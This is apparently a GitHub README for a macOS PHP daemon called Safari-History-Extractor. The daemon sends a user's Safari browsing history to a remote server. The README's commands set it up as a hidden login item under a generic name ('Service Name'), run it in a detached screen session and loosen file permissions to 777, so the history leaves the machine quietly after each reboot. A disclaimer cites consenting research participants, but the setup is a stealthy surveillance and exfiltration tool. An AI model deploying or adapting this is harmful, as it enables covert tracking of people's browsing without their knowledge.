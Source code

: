 # Safari-History-Extractor
Php daemon running on macOS to send out history to defined server.

### Disclaimer
It has been developed to analyse internet browsing behaviours. Every participant was aware of that and agreed to take part in research. It's only for educational purposes and i’m not responsible for inappropriate usage of this software.

## Usage
Copy <b>remote_server_endpoint.php</b> to server, define table, database credentials and create table with fields
```sql
(url, date, number_of_visit, safari_db_id, unique_md5)
```

Define table name and ip/domain in <b>history_daemon.php</b> and put this file in macOS /Users/DESIRED_USER/ then one by one run those commands in terminal.
```shell
touch .start_history_daemon
nano .start_history_daemon
```
copy & paste
```shell
screen -dmS history_daemon php history_daemon.php
```
then
```shell
chmod 777 .start_history_daemon
osascript -e 'tell application "System Events" to make new login item at end with properties {path:"/Users/DESIRED_USER/.start_history_daemon", name:"Service Name", hidden:true}'
```

After rebooting data should start flowing to desired server.

